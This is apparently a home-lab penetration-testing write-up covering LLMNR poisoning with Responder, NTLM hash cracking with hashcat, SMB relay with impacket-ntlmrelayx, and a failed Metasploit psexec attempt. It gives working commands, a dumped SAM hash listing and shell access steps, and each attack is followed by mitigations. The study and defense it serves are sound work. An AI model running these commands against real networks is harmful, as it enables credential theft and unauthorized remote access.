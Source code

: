 Setup win2022 server: 192.168.64.138   
Setup Peterparker: \\192.168.64.140  
Setup Frankcastle: 192.168.64.139  
Kali: \\192.168.64.129/24

## 🚩 LLMNR Poisoning - Link Local Multicast resolution

**Requirements:**  
* LLMNR attack can be performed if the LLMNR/NBT-NS is enabled and the attacker machine is in the same network as the target.
* LLMNR attacks use the Responder tool which captures credentials that are broadcasted over the network when a user seek connection to a another service / resource that does not exists or is poorly configured. Through these vulnerabilities, Responder spoofs the request and responds by stating they know the service or resource. Requesting the victims NTLM hash.  

![image](https://github.com/user-attachments/assets/fc6902c4-acf7-4787-b2c8-607a7cd2900b)  

Commonly used tooling for LLMNR Poisoning attacks:  
Responder, Impacket, MITM6

### Capturing Hashes with Responder

Kali responder IP: 192.168.64.129/24

            sudo responder -I eth0 -dwv

![image](https://github.com/user-attachments/assets/8de5ddb4-8956-4b4b-98f6-c2df1cb6ac99)  

Ensure details such as nic, responder ip, is all correct. Once responder is on the network and listening for traffic, an example of captured NTLMv2 hashes can be seen like this:

![image](https://github.com/user-attachments/assets/f4e41ca4-5d90-4b66-b181-399742def06f)

### Cracking NTLM hashes  

            root@kali:/home/kali# hashcat -m 5600 ntlm.txt /usr/share/wordlists/rockyou.txt --force

![image](https://github.com/user-attachments/assets/7d5a47ce-1ef8-4cb6-9e7d-b8785a930da5)

Hash cracked.

## 🔵 LLMNR Poisoning Mitigation  

1. Disable LLMNR / NBT-NS (NetBIOS) Broadcasts.  
2. Implement NAC on the internal network.
3. Have strong password requirements for end users espicially admin or service accounts. This will also add to defense in depth.

## 🚩SMB Relay Attack - Service Message Block

SMB (Server Message Block) is a protocol used for file shares, printers, and other resources on a network. This common protocol can be abused when an attacker on the same internal network (domain and or subdomain) is actively attempting to capture the NTLM hashes transmitted over the network. Which is then maliciously relayed to a service / server, granting access since the hash is authenticated.

**Requirements:**  
* SMB signing must be disabled or not enforced on the target machine.  
* Target machine should be admin, domain admin or service accounts for maximum effect.
* Responder config files /etc/responsder/Responder.conf must have smb and https turned off, so that captured hashes are not stored but are instead 'relayed'.

![image](https://github.com/user-attachments/assets/d8f8f9fc-6393-4e74-877a-9a0a0731cc97)  

🔴 The reason why these are turned off is to prevent the authentication resposne from being captured, but rather we are attempting to 'relay' them to our targets lists.


1. Firstly identify hosts without SMB signing. 

            nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn 
      
![image](https://github.com/user-attachments/assets/52f6904d-f256-467c-9b40-414b011f57c2)

2. Once we have discovered our targets (have SMB signing disabled and not required). Create a targets.txt detailing the targets.

            nano target.txt > add target ips into file

3. Start responsder with the new edited config files.

            responder -I eth0 -dPv

5. Start ntlmrelayx.py or impacket-ntlmrelax.

            impacket-ntlmrelax -tf targets.txt -smb2support

![image](https://github.com/user-attachments/assets/ac597d69-e6d9-4da3-affa-ca352ce13850)  

            [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
            Administrator:500:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2709e4a8da75eb3a5c72700995058b08:::
            peterparker:1001:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            [*] Done dumping SAM hashes for host: 192.168.64.140
            [*] Stopping service RemoteRegistry
            [*] Restoring the disabled state for service RemoteRegistry
Above figure presents a SAM Dump  

We have succesfully captured the NTLM hash from peterparker with Responder relaying the SAM authentication back to the server using impacket-ntlmrelayx. 

6. Gaining interactive shell with impacket.

            impacket-ntlmrelayx -tf targets.txt -smb2support -i  

![image](https://github.com/user-attachments/assets/dff22fbf-f7e3-4415-bb76-c1f9a7c42541)

Once interactive shell has been obtained as seen above, we can now bind this with netcat via the SMB shell TCP on 127.0.0.1:11000  
Once netcat has been binded to list all the available arguments that is available to be used in this specific shell environment.  

![image](https://github.com/user-attachments/assets/5ea73547-920d-4d1d-8ce7-085dadedbfc1)

7. Using command switch with impacket. 

            impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"

![image](https://github.com/user-attachments/assets/0bda36ba-980a-444a-ad6d-de4fa828981a)  

SMB relay attack with -c 'whoami' flag successful

## 🔵 SMB Relay attack Mitigations

1. Enable SMB Signing on all devices.
2. Accounting Tiering (limiting specific accounts to defined tasks).
3. Local admin restriction.
4. Disable NTLM authentication (completely stops the attack however if Kerberos fails, it cannot default to NTLM authentication).

## 🚩 Gaining Shell Access

### Metasploit module using psexec  
In metasploit we have chosen the windows/smb/psexec module  
![image](https://github.com/user-attachments/assets/5a95bb0b-2ef1-4559-9047-239d20571096)  

and set payload to x64 compatible as most* modern machines run x64.

            set payload windows/x64/meterpreter/reverse_tcp

configure the options with the information gathered in the LLMNR attack.

![image](https://github.com/user-attachments/assets/24e94831-edbe-47ec-b388-2287fe5ac5ba)

After trying to run, the exploit was suggested to be succesful however no session was created.  
Tried to debug this issue by setting payload to non x64 version, setting exploit targets to different settings, changing LPORT to 5555, setting up metasploit multi handler for connections and also nc -nlvp 4444. With no success.

![image](https://github.com/user-attachments/assets/e0567cb8-f6f3-4060-bcb4-81e7ad6cf4b6)  

Not a big deal... we can try to manually exploit it. (My preferred way anyways ;]) 

### Manual mode using psexec.py  


### Other Remote command execution tools in Windows environments to attempt if one does not work.

1. Psexec
2. Wmiexec
3. SMBexec

------- 
**Reference:**  

https://medium.com/@tayyabanoor1201/tcm-security-smb-relay-attack-writeup-dfc7cc113bb0

https://medium.com/@rymak/smb-relay-attack-19192e1d158c
